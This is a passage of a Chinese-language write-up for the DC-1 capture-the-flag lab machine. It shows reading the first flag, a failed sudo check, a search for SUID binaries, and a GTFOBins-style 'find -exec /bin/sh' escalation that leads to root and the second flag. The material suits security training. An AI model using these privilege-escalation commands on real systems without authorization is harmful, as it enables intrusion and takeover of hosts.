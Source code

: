 #### FLAG1获取​​​​​​​

```
www-data@DC-1:/var/www$ find / -name local.txt 2&gt;/dev/null

find / -name local.txt 2&gt;/dev/null

/home/local.txt

www-data@DC-1:/var/www$ cat /home/local.txt

cat /home/local.txt

******************
```

#### 权限提升

##### Linux提权-sudo提权尝试(失败)

查找具有`sudo`权限，且不需要密码的可提权文件​​​​​​​

```
# 利用sudo -l寻找

sudo -l
```

#### Linux提权-suid提权尝试​​​​​​​

```
# -perm 文件权限

find / -perm -u=s -type f 2&gt;/dev/null
```

<br/> 如果发现有东西的话 访问 https://gtfobins.github.io 寻找

```
# 查找文件提权

find . -exec '/bin/sh' \;
```

提权成功

#### FLAG2获取​​​​​​​

```
# cat /root/proof.txt

cat /root/proof.txt

****************
```

完结撒花~
